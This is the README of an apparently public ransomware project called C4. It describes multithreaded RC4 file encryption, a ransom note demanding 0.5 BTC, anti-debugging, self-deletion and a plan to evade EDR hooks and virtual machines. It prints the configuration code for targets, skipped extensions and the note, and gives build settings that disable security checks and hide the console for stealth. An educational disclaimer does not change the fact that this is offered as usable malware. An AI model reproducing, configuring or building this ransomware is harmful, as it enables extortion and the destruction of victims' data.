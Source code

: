# C4

#### Lightweight Ransomware with Thread-Pool Concurrency 


> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Drops a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Self-deletes the executable after finishing.
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo-2.gif](https://i.postimg.cc/8cS0D1ZH/c4-demo-2.gif)](https://postimg.cc/WF5nwPLF)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
   ///////////////////
  // CONFIGURATION //
 ///////////////////

TEXT_SECTION BOOL g_EncryptMode         =       TRUE;     // TRUE = Encrypt, FALSE = Decrypt
TEXT_SECTION BOOL g_RansomMode          =       TRUE;     // TRUE = Drop a text file (g_Note) with payment instructions to the current directory
TEXT_SECTION BOOL g_AntiDebug           =       TRUE;     // TRUE = Program exits when debugger (such as x64dbg, OllyDbg, WinDbg) is attached 
TEXT_SECTION BOOL g_SelfDelete          =       TRUE;     // TRUE = Binary will self-delete
TEXT_SECTION BOOL g_Verbose             =       TRUE;     // TRUE = Print files, directories, errors, and execution time to the console


LPCWSTR g_Directories[] = { 
    L"C:\\Users\\Public\\TestDirectory", 
    NULL                               
}; 

LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {    
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", L".conf",
    L".cfg", L".reg", L".dat", L".bat", L".cmd"
};


LPCSTR g_Note = {           
    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
    "This is not a joke. Want your data restored?\r\n"
    "Send 0.5 BTC to the address below:\r\n"
    "1MockBTCAddrxxxxxxxxxxxxxxxxxx\r\n"
    "You have 48 hours.\r\n"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)
   - **C/C++ → Code Generation → Basic Runtime Checks:** Default  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest File → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem when using verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection
